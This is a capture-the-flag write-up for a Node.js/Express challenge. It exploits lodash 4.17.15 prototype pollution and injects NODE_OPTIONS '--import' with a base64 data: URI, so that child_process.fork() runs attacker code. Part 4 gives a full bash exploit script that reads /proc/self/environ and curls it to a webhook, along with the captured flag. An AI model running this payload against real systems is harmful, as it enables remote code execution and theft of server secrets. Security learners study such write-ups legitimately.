     

# Hey there!


### Challenge Overview

*   **Name:** Utopia City Government Portal
*   **Difficulty:** Easy
*   **Description:** Utopia City has deployed a government portal for citizens to contact city officials and access services.

### Part 1: Analyzing the Backend Logic

The first step was to examine the code. The code revealed a  Express.js application with a few critical components.

**Key Code Snippets:**

*   **The Vulnerable Function (`/api/contact`):**
    ```javascript
    const _ = require('lodash');
    // ...
    app.post('/api/contact', (req, res) => {
        try {
            const config = { /* defaults */ };
            Object.keys(req.body.config).forEach(key => {
                _.set(config, key, req.body.config[key]);
            });
            // ...
    ```

*   **The Trigger (`/api/contact`):**
    ```javascript
    // ... (immediately after the pollution)
    const { fork } = require('child_process');
    // ...
    const child = fork(scriptPath);
    // ...
    ```

*   **The Dependencies (`package.json`):**
    *   `"lodash": "4.17.15"`
    *   `"express-handlebars": "^7.1.2"`

This initial analysis revealed three critical facts:
1.  The application uses a known vulnerable version of `lodash` (`4.17.15`), making the app vulnerable to Prototype Pollution,
2.  Immediately after the pollution occurs, the code calls `child_process.fork()`. This can be use RCE (remote code execution) if we can control its options or environment.
3.  The application runs on a modern node.js version

It was obvious what we had to do: Use Prototype Pollution to control the environment of the forked child process to get RCE.

### Part 2: The Journey of Trial and Error


I first tried to avoid RCE and try an Arbitrary File Read. The goal was to pollute the `layout` property used by the `express-handlebars` engine when rendering the 404 error page.

The engine always appended a `.handlebars` extension to any filename without one. Attempts to bypass this using classic tricks were all defeated:
*   Trailing Dot (`/etc/environment.`):*The filesystem tried to open a file with a dot at the end.
*    Null Byte (`/etc/environment\u0000`): The modern Node.js `fs` module threw an error, explicitly rejecting paths with null bytes.
*   Polluting `extname`: This property was configured at startup and could not be changed by runtime pollution.

### Part 3: Finding the Golden Gadget

Frustrated, I consulted the excellent research on **Payloads All The Things** and **HackTricks**. 
From there, i found a gadget that would be basically what solved the problem:

 [`Filesystem-less PP2RCE via --import (Node ≥ 19)`](https://book.hacktricks.wiki/en/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce.html#filesystem-less-pp2rce-via---import-node--19)


It supports `data:` URIs, meaning the entire payload can be Base64-encoded and passed in the environment variable,


The final attack vector was:
1.  Craft a Node.js payload using ESM `import` syntax to read `/proc/self/environ`, Base64-encode it, and `curl` it to an external webhook.
2.  Base64-encode this entire script.
3.  Create a `data:` URI with the encoded script.
4.  Use prototype pollution to inject `NODE_OPTIONS` with the value `--import <your_data_uri>`.
5.  Let the `fork()` command trigger the exploit.

### Part 4: The Final Script

This script automates the entire process, from crafting the payload to sending the final exploit. It's designed to exfiltrate the flag from the remote server to a webhook.

```bash
#!/bin/bash

# --- Configuration ---
TARGET_URL="https://aa6b8031aacb1355.chal.ctf.ae/api/contact"
WEBHOOK_URL="https://webhook.site/0289a7e0-7060-4497-9d3e-62bf1c2c0d3f" # Replace with your webhook
TARGET_FILE="/proc/self/environ"

echo "[+] Preparing exploit for target: $TARGET_URL"

# --- Payload Crafting ---
# 1. The Node.js code in modern ESM syntax.
NODE_CODE="import fs from 'fs'; import { execSync } from 'child_process'; const flag = fs.readFileSync('${TARGET_FILE}'); execSync('curl ${WEBHOOK_URL}/?flag=' + Buffer.from(flag).toString('base64')); process.exit();"

# 2. Base64-encode the Node.js code.
ENCODED_CODE=$(echo -n "$NODE_CODE" | base64 -w0)

# 3. The final data URI for the --import gadget.
DATA_URI="data:text/javascript;base64,${ENCODED_CODE}"

echo "[+] Generated Data URI payload."

# --- Sending the Exploit ---
echo "[+] Sending the final payload..."
curl -X POST "$TARGET_URL" \
-H 'Content-Type: application/json' \
-d @- <<EOF
{
  "config": {
    "constructor.prototype.NODE_OPTIONS": "--import ${DATA_URI}"
  }
}
EOF

echo
echo "[+] Exploit sent. Check your webhook for the flag."
```

Running this script successfully exfiltrated the environment variables from the server, which contained the flag: **`FLAG=flag{66b266e98c785551}`**


